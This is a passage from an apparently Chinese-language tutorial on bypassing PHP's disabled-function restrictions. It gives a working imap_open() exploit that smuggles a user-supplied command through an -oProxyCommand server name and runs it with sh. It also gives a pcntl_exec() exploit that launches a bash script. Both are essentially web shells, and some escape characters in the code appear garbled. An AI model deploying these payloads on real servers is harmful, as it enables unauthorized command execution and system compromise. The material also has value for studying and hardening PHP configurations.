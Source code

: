 
选择可上传目录路径,上传exp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102324.png)

  

包含文件执行

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102325.png)

  

## 利用imap_open()绕过

利用条件需要安装iamp扩展,命令行输入:`apt-get install php-
imap`在php.ini中开启imap.enable_insecure_rsh选项为On；重启服务。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102326.png)

  

基本原理为:

    
    
    PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。  
    

EXP:

    
    
    <?php   
    error_reporting(0);   
    if (!function_exists('imap_open')) {   
    die("no imap_open function!");   
    }   
    $server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .  
    ">/tmp/cmd_result") . "|base64t-d|sh}";   
    //$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .  
    ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';   
    imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or  
    var_dump("nnError: ".imap_last_error());   
    sleep(5);   
    echo file_get_contents("/tmp/cmd_result");   
    ?>  
    

## 利用Pcntl组件

如果目标机器安装并启用了php组件Pcntl,就可以使用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令,也算是过黑名单的一钟,比较简单。

exp为:

    
    
    #pcntl_exec().php  
    <?php pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));?>  
    #/tmp/b4dboy.sh  
    #!/bin/bash  
    ls -l /  
    